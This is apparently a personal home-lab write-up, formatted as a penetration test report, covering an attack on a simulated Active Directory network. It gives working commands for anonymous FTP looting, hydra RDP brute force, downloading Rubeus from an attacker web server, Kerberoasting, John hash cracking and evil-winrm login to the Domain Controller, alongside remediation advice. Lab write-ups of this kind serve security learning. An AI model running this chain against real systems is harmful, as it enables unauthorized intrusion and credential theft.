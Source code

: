 ```yaml
---
title: "ATTACKING ACTIVE DIRECTORY | PERFORMING THE PENETRATION TEST"
date: 2024-08-15 00:00:00 +0800
categories: [Attacking Active Directory]
tags: [Windows]                    
---
```


![img-description](/assets/img/PROJECTS/AD/Active-Directory.jpg)

## Initial Access - Anonymous FTP access + Brute Forcing RDP

**Vulnerability Explanation:** Anonymous FTP access allows for extraction of a file containing sensitive usernames. The usernames were then used to perform a brute force password attack against the RDP service that is running on the target client machine.

**Vulnerability Fix:** Credentials for user 'jdoe' are compromised and should be changed immediately. Remove the sensitive file from the FTP server. Remove anonymous access and remove the FTP server entirely if not needed. 

**Severity:** Critical

**Steps to reproduce the attack:** Christian discovered anonymous access was available to an FTP server on the target machine on 192.168.10.5 through an nmap service enumeration scan. The file was extracted and user names were found. A successful brute force attempt was made against the RDP service.

**Port Scan Results**

**TCP:** 21, 80, 135, 3389, 5040, 7680

**UDP:** N/A

Use nmap to scan the target for open ports.

TCP ports 21, 80, 135, 3389, 5040, 7680 were discovered.

```shell
sudo nmap -v -p- 192.168.10.5 -oN nmap.initial
```

![img-description](/assets/img/PROJECTS/AD/AD6-1.png)
![img-description](/assets/img/PROJECTS/AD/AD6-2.png)

Further enumerate ports with another nmap scan reveals the FTP service on port 21 allows for anonymous access.

```shell
sudo nmap -v -A -p21,80,135,3389,5040,7680 192.168.10.5 -oN nmap.enum
```

![img-description](/assets/img/PROJECTS/AD/AD6-3.png)

Login to FTP.

```shell
ftp anonymous@192.168.10.5
```

![img-description](/assets/img/PROJECTS/AD/AD6-4.png)

A interesting file named 'NewUsersToAdd.txt' can be found. Exfiltrating the file and reading it reveals 2 potential usernames. jdoe. jdoe2.

```
get NewUsersToAdd.txt
```

```shell
cat NewUsersToAdd.txt
```

![img-description](/assets/img/PROJECTS/AD/AD6-5.png)

Move into a directory with your desired wordlist. 

I will use a personally crafted wordlist to avoid creating too much traffic but rockyou.txt will work as well.

![img-description](/assets/img/PROJECTS/AD/AD6-6.png)

Use hydra, the username 'jdoe', and the wordlist to perform a brute force attack against RDP running on port 3389. Valid credentials are found. **jdoe:password123!**

```shell
hydra -l jdoe -P bestwordlistever.txt 192.168.10.5 rdp -V
```

![img-description](/assets/img/PROJECTS/AD/AD6-7.png)

Login to the target machine via RDP.

```shell
xfreerdp /u:jdoe /p:password123! /v:192.168.10.5
```

![img-description](/assets/img/PROJECTS/AD/AD6-8.png)

![img-description](/assets/img/PROJECTS/AD/AD6-9.png)

We now have initial access to the machine as user 'jdoe'.

## Privilege Escalation - Kerberoasting + Offline Password Attack

**Vulnerability Explanation:** A well-known Active Directory vulnerability known as Kerberoast can be successfully performed against the target environment. A successful Kerberoasting attack results in the NTLM hash of a vulnerable user being retrieved by the attacker. The hash can be taken offline and cracked. On the target system, this leads to access to an account named 'SVC' (a Domain Admin) and full compromising of the Domain Controller. 

**Vulnerability Fix:** Credentials for user 'SVC' are compromised and should be changed immediately. Use a strong password. Remove 'SVC' from the domain admins group if not needed.

**Severity:** Critical

**Steps to reproduce the attack:**

Once logged into the target machine on 192.168.10.5, open a PowerShell command prompt. 

Open a python web server on our Kali attacker machine in a directory where you have Rubeus.exe.

```shell
python3 -m http.server 8888
```

![img-description](/assets/img/PROJECTS/AD/AD6-10.png)

Transfer Rubeus.exe to the target machine.

```powershell
iwr -uri http://192.168.10.250:8888/Rubeus.exe -O Rubeus.exe
```

![img-description](/assets/img/PROJECTS/AD/AD6-11.png)

Execute the Rubeus.exe binary with the 'kerberoast' option to perform the Kerberoast attack. This command will save the outpush hashes to a file named 'hashes.kerberoast'.

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

![img-description](/assets/img/PROJECTS/AD/AD6-12.png)

We have successfully performed kerberoasting and now have a potential hash to crack for user 'SVC'. Copy the hash to a file with the same name in our Kali attacker machine.

![img-description](/assets/img/PROJECTS/AD/AD6-13.png)

Use JohnTheRipper to crack the hash with our supplied wordlist.

```shell
john hashes.kerberoast --wordlist=/home/kali/ADAttackSimulation/EXPLOIT/bestwordlistever.txt
```

![img-description](/assets/img/PROJECTS/AD/AD6-14.png)

Valid credentials are found. **SVC:SecurePassword123!**

Login to the Domain Controller via evil-winrm and the newly discovered credentials.

```shell
evil-winrm -i 192.168.10.7 -u SVC -p SecurePassword123!
```

![img-description](/assets/img/PROJECTS/AD/AD6-15.png)

We have successfully gained access to a Domain Admin account on the Domain Controller. 

## Post Exploitation

Since this is a personal project the objective is only to compromise the Domain Controller on the system in order to simulate a successful penetration test. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.